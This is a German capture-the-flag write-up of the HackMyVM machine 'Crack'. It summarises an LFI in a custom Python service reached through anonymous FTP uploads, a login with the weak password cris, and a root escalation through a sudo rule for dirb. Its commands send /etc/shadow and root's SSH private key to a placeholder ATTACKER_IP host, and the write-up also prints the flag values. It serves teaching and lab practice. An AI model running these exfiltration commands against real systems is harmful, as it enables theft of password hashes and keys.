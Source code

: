 # Crack - HackMyVM (Easy)

![Crack Icon](Crack.png)

## Übersicht

*   **VM:** Crack
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Crack)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 20. Juni 2023
*   **Original-Writeup:** https://alientec1908.github.io/Crack_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Crack" von HackMyVM (Schwierigkeitsgrad: Easy) wurde durch eine Local File Inclusion (LFI)-Schwachstelle in einem benutzerdefinierten Python-Netzwerkdienst kompromittiert. Der Dienst auf Port 12359 las Dateien, wenn eine gleichnamige Datei in einem anonym beschreibbaren FTP-Upload-Verzeichnis existierte. Nachdem `/etc/passwd` ausgelesen wurde, konnte ein Benutzer (`cris`) identifiziert werden. Dessen schwaches Passwort wurde erraten, was zu initialem Zugriff via ShellInABox (Port 4200) führte. Die Privilegienerweiterung zu Root erfolgte durch die Ausnutzung einer `sudo`-Regel, die es `cris` erlaubte, `dirb` als Root auszuführen. Dies wurde missbraucht, um den privaten SSH-Schlüssel von Root zu exfiltrieren und sich dann per SSH als Root anzumelden.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nmap`
*   `grep`
*   `wget`
*   `nikto`
*   `gobuster` / `dirb`
*   `nc` (netcat)
*   `ftp`
*   `telnet`
*   `curl`
*   `chmod`, `touch`, `tr`, `awk`, `sed`
*   `hydra`
*   `find`, `getcap`, `uname`, `which`
*   `python3` (für Shell-Stabilisierung und HTTP-Server)
*   `stty`, `fg`, `reset`
*   `ss`
*   `ssh`
*   Standard Linux-Befehle (`ll`, `cd`, `cat`, `echo`, `mkdir`, `id`, `sudo`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Crack" erfolgte in diesen Schritten:

1.  **Reconnaissance & Service Enumeration:**
    *   Ziel-IP (`192.168.2.116`, Hostname `crack.hmv`) via `arp-scan` und `/etc/hosts` identifiziert.
    *   `nmap` zeigte offene Ports: 21 (FTP - vsftpd 3.0.3 mit erlaubtem Anonymous Login und beschreibbarem `/upload`-Verzeichnis), 4200 (HTTPS - ShellInABox) und 12359 (unbekannter Dienst, der "File to read:" sendete).
    *   Vom FTP-Server wurde die Datei `/upload/crack.py` heruntergeladen.

2.  **Vulnerability Analysis (LFI im Python-Dienst):**
    *   Analyse von `crack.py` (der Dienst auf Port 12359) enthüllte eine LFI-Schwachstelle: Das Skript las eine vom Benutzer angegebene Datei, wenn eine Datei mit demselben Basisnamen im FTP-Verzeichnis `/srv/ftp/upload/` existierte.
    *   `os.path.basename()` im Skript verhinderte einfaches Path Traversal.

3.  **Initial Access (LFI & ShellInABox):**
    *   Eine leere Datei namens `passwd` wurde lokal erstellt und per anonymem FTP in das Verzeichnis `/upload` auf dem Zielserver hochgeladen.
    *   Mittels `telnet 192.168.2.116 12359` wurde eine Verbindung zum Python-Dienst hergestellt. Nach der Aufforderung "File to read:" wurde `/etc/passwd` gesendet. Der Inhalt von `/etc/passwd` wurde erfolgreich zurückgegeben.
    *   Aus `/etc/passwd` wurden die Benutzer `root` und `cris` (mit Bash-Shell) identifiziert.
    *   Ein Brute-Force-Versuch mit `hydra` auf den FTP-Account von `cris` scheiterte.
    *   Über die Web-Oberfläche von ShellInABox (`https://192.168.2.116:4200`) gelang der Login als `cris` mit dem Passwort `cris`.
    *   Die User-Flag wurde aus `/home/cris/user.txt` gelesen.

4.  **Privilege Escalation (cris zu root via sudo dirb):**
    *   Eine stabilere Reverse Shell als `cris` wurde via `nc` und Python PTY etabliert.
    *   `sudo -l` für `cris` zeigte: `(ALL) NOPASSWD: /usr/bin/dirb`.
    *   Diese `sudo`-Regel wurde ausgenutzt, um Dateien als Root zu lesen:
        1.  Ein Python-HTTP-Server wurde auf dem Angreifer-System gestartet.
        2.  Auf dem Zielsystem wurde `sudo -u root /usr/bin/dirb http://ATTACKER_IP/ /etc/shadow` ausgeführt. `dirb` las `/etc/shadow` (als Root) und sendete jede Zeile als GET-Request an den Angreifer.
        3.  Die Passwort-Hashes wurden in den HTTP-Logs des Angreifers sichtbar.
        4.  Dieselbe Methode wurde verwendet, um `/root/.ssh/id_rsa` zu exfiltrieren: `sudo -u root /usr/bin/dirb http://ATTACKER_IP/ /root/.ssh/id_rsa`.
    *   Der private SSH-Schlüssel von Root wurde aus den HTTP-Logs rekonstruiert.
    *   Der rekonstruierte Schlüssel wurde auf dem Zielsystem (z.B. in `/home/cris/id_root`) gespeichert und die Berechtigungen (`chmod 600`) gesetzt.
    *   Mit `ssh root@localhost -i /home/cris/id_root` wurde eine Root-Shell erlangt (da der SSH-Dienst auf Port 22 auch lokal lauschte).
    *   Die Root-Flag wurde aus `/root/root_fl4g.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugang mit Schreibrechten:** Ermöglichte das Hochladen einer Trigger-Datei für die LFI.
*   **Local File Inclusion (LFI):** Im benutzerdefinierten Python-Dienst, ausgenutzt durch das Platzieren einer gleichnamigen Datei im FTP-Upload-Verzeichnis.
*   **Schwache Passwörter:** Erlaubten den Login als `cris` via ShellInABox (Benutzername = Passwort).
*   **Unsichere `sudo`-Konfiguration (`dirb`):** Erlaubte das Ausführen von `dirb` als Root, was zum Auslesen beliebiger Dateien missbraucht wurde (File Exfiltration über HTTP-Requests).
*   **SSH Key Exfiltration & Login:** Erlangen des privaten SSH-Schlüssels von Root und anschließender Login.

## Flags

*   **User Flag (`/home/cris/user.txt`):** `eG4TUsTBxSFjTPHMV`
*   **Root Flag (`/root/root_fl4g.txt`):** `wRt2xlFjcYqXXo4HMV`

## Tags

`HackMyVM`, `Crack`, `Easy`, `FTP`, `LFI`, `Python`, `ShellInABox`, `Weak Credentials`, `Sudo Privilege Escalation`, `dirb`, `File Exfiltration`, `SSH`, `Linux`

